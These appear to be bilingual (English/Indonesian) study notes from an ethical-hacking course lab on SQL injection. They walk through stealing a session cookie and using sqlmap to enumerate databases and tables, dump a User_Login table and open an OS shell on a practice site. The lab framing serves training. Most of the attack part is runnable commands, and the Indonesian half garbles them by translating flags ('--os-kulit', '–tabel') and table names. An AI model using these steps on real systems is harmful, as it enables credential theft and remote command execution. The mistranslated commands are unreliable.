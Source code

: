 # Bagian 01: SQL Injection Concepts/Konsep Injeksi SQL


**Modul 15: SQL Injection/Injeksi SQL**

**Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap/Melakukan Serangan Injeksi SQL Terhadap MSSQL untuk Mengekstrak Database menggunakan sqlmap**


- Login a website
- Inspect element
- Dev tools-\&gt;Console: document.cookie
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; –dbs**
  - **-u: Specify the target URL**
  - **--cookie: Specify the HTTP cookie header value**
  - **--dbs: Enumerate DBMS databases**
- Get a list of databases
- Select a database to extract its tables
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; -D moviescope –tables**
  - **-D: Specify the DBMS database to enumerate**
  - **--tables: Enumerate DBMS database tables**
- Get a list of tables
- Select a column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; -D moviescope –T User\_Login --dump**
- Get table data of this column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; --os-shell**
- Get the OS Shell
- TASKLIST

------------------------------------------------------------------------------ mungkin saya harus menulisnya dalam bahasa indonesia agar mudah di mengerti:

- Masuk ke situs web
- Memeriksa elemen
- Alat pengembang-\&gt;Konsol: document.cookie
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;nilai&quot; –dbs**
 - **-u: Tentukan URL target**
 - **--cookie: Tentukan nilai header cookie HTTP**
 - **--dbs: Menghitung database DBMS**
- Dapatkan daftar database
- Pilih database untuk mengekstrak tabelnya
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;nilai&quot; -D moviescope –tabel**
 - **-D: Tentukan database DBMS yang akan dihitung**
 - **--tabel: Menghitung tabel database DBMS**
- Dapatkan daftar tabel
- Pilih kolom
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;nilai&quot; -D moviescope –T Pengguna\_Login --dump**
- Dapatkan data tabel kolom ini
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;nilai&quot; --os-kulit**
- Dapatkan OS Shell
- DAFTAR TUGAS

--------------------------------------------------- ----------------------------

## Konsep

Structured query language (SQL)/Bahasa kueri terstruktur (SQL)

[Definisi](../definitions/definitions_S.md#struktur-kueri-bahasa)

Structured query language (SQL) injection
/Injeksi bahasa kueri terstruktur (SQL).

[Definisi](../definitions/definitions_S.md#struktur-query-bahasa-injeksi)

Remote code execution (RCE)/Eksekusi kode jarak jauh (RCE)

[Definisi](../definitions/definitions_R.md#remote-code-execution)

